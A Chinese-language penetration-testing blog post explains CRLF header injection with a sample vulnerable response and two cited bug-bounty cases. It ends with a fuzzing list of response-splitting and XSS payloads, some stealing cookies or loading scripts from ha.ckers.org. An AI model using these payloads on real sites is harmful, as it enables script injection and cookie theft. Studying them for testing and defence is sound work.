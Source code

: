 ```yaml
---
layout: post
title: Carriage-Return Line-Feed(CRLF)
categories: Pentest
description: Carriage-Return Line-Feed(CRLF)
keywords: Pentest
---
```

# Original
今天看国外案例的时候看到CRLF的案例，突然也想写一篇文章来记录一下。

# First What Is CRLF
```
CRLF是Carriage-Return Line-Feed的缩写，意思是回车换行，就是回车(CR, ASCII 13, \r) 换行(LF, ASCII 10, \n)，CRLF字符（%0d%0a）CRLF也被称为HTML拆分。
```
我们在渗透测试过程中可以寻找我们可控返回包header的请求
比如下面这个请求
```
GET /test/demo.php?url=https://c1h2e1.github.io
xxxxxxxxxxxxxxxxxxxxx
xxxxxxxxxxxxxxxxx
```
response

```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: deflate
xxxxxxxx
Locations=https://baidu.com
```
向上述这种返回包里面的header可控的请求我们就可以尝试进行CRLF注入。
```
%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2047%0d%0a%0d%0a<script>alert(1)</script>
```
`Content-Length：0` 代表header 的结尾，返回包会变成这个样子
```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: deflate
xxxxxxxx
Locations=https://baidu.com
Content-Length: 0

<script>alert(1)</script>

```
这样我们就会触发我们的js并弹窗
这也就是最简单的一次**crlf注入**
# 案例
我在国外的漏洞库`pentester.land`搜集了2个CRLF案例
案例一
http://blog.shashank.co/2017/11/crlf-injection-in-bockchaininfo.html
```
GET /charts/total-bitcoins?cors=true&format=csv&lang=english HTTP/1.1
Host: api.blockchain.info
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
HTTP/2.0 200 OK
date: Tue, 31 Oct 2017 15:47:21 GMT
content-type: text/csv; charset=ascii
content-length: 10953
access-control-allow-origin: *
cache-control: public, max-age=60
content-disposition: attachment; filename="total-bitcoins.csv"
content-language: english


"lang"参数出现在了返回包里
现在为了注入CRLF 我们需要url编码一下\r\n "%0D%0A"
据此发送如下请求
https://api2.blockchain.info/charts/total-bitcoins?cors=true&format=csv&lang=en%0ATEST
新的header出现在了返回包里

这里存在CRLF注入漏洞 ，这样可以进行利用CRLF漏洞去执行JavaScript代码，去盗取cookie

最终的Payload

https://api2.blockchain.info/charts/total-bitcoins?cors=true&format=csv&lang=en%0AX-XSS-Protection:0%0AContent-Type:text/html%0AContent-Length:35%0A%0A%3Csvg%20onload%3Dalert%28document.domain%29%3E&__cf_waf_tk__=012853002E6loVIOSyqHfdxrvHJ87MshEnZI

```

案例二

https://medium.com/bugbountywriteup/bugbounty-exploiting-crlf-injection-can-lands-into-a-nice-bounty-159525a9cb62
```
因为详情写的没有请求包和发现过程
但我可以推算一下
他的请求包出现在了返回包中，比如http://test.com/aaaaaa
我们的aaaa会出现在header中，之后我们就可以测试CRLF的攻击了
利用思路和原来一样就不再写了
```
# KEEP FUZZING
我们在实战中可以选用fuzz 的手段进行挖掘和bypass
so我们再一次分享Payload
```
%0d%0a
%0d%0a%0d%0a
r%0d%0aContentLength:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContentType:%20text/html%0d%0aContentLength:%2019%0d%0a%0d%0a<html>Injected%02Content</html>
%0d%0d%0a%0a
0x0D0x0A
0x0D0x0D0x0A0x0A
\r\n
%5cr%5cn
%0%0d%0ad%0%0d%0aa
%0%0D%0AD%0%0D%0AA
%0d%0aContentType:%20text/html;charset=UTF-7%0d%0aContent-Length:%20129%0d%0a%0d%0a%2BADw-html%2BAD4-%2BADw-body%2BAD4-%2BADw-script%2BAD4-alert%28%27XSS,cookies:%27%2Bdocument.cookie%29%2BADw-/script%2BAD4-%2BADw-/body%2BAD4-%2BADw-/html%2BAD4
%0AContent-Type:html%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
%0AContent-Type:html%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3Ehttp://www.test.com
%0d%0a%0d%0a%3Chtml%3E%3Cbody%3E%3C%2Fbody%3E%3Cscript+src%3Dhttp%3A%2F%2Fha.ckers.org%2Fs.js%3E%3C%2Fscript%3E%3Cscript%3Ealert(%22location.host%20is:%20%22%2Blocation.host)%3C%2Fscript%3E%3C%2Fhtml%3E
%0d%0a%0d%0a%3Cscript+src%3Dhttp%3A%2F%2Fha.ckers.org%2Fxss.js%3E%3C%2Fscript%3E
%22%3E%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E%3C%22
%0AContent-type:%20text/html%0A%0Ahttp://www.test.com/%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
%0d%0a%0d%0a%3Cscript%3Ealert(%22XSS%22)%3C%2Fscript%3E
%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
```

# 总结
临时想到要写的一篇文章，研究新漏洞总结新思路！！
